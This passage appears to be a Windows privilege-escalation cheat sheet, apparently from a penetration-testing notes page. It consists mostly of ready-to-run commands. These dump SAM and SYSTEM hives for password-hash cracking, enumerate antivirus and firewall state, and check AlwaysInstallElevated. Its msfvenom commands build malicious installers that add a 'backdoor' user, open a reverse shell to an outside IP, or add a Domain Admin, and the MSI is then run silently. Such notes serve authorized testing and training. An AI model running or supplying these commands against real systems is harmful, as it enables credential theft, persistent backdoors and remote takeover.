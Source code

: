 ```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
------------------------------------------------------------
Generate a hash file for John using `pwdump` or `samdump2`.

pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt

===================================================================================================
Check PayloadAllTheThings for more:
===================================================================================================
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords
```

##	AV Enumeration	`[Check The Firewall Status]`

-	sc query windefend
-	sc queryex type= service
-	netsh advfirewall firewall dump
-	netsh firewall show state
-	netsh firewall show config

##	Running Process
-   ps
-   tasklist

##	Directory Enumeration

>	Program Files / Program Files x86 / Users home dir [Check recurse dir /s /a ] / inetpub / 	[Installed Apps]
>	Schedule task / `.bat` [dir /s /a *.bat] from C directory

>	link [sysmlink] file [ippsec]-[]

##		AlwaysInstallElevated [SharpUp.ps1,PowerUp.ps1-`Write-UserAddMSI`]
```
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

$ Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
$ Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer

$ msfvenom -p windows/adduser USER=backdoor PASS=Backdoor@123 -f msi -o evil.msi
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi-nouac -o evil.msi
$ msfvenom -p windows/adduser CMD="powershell encoded payload" -f msi -o evil.msi

-	msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.60.124 LPORT=80 -f msi -o reverse.msi

msfvenom -p windows/exec CMD='net group "Domain Admins" yogi810 /add' -f dll > userenv.dll

msiexec /quiet /qn /i C:\evil.msi

```
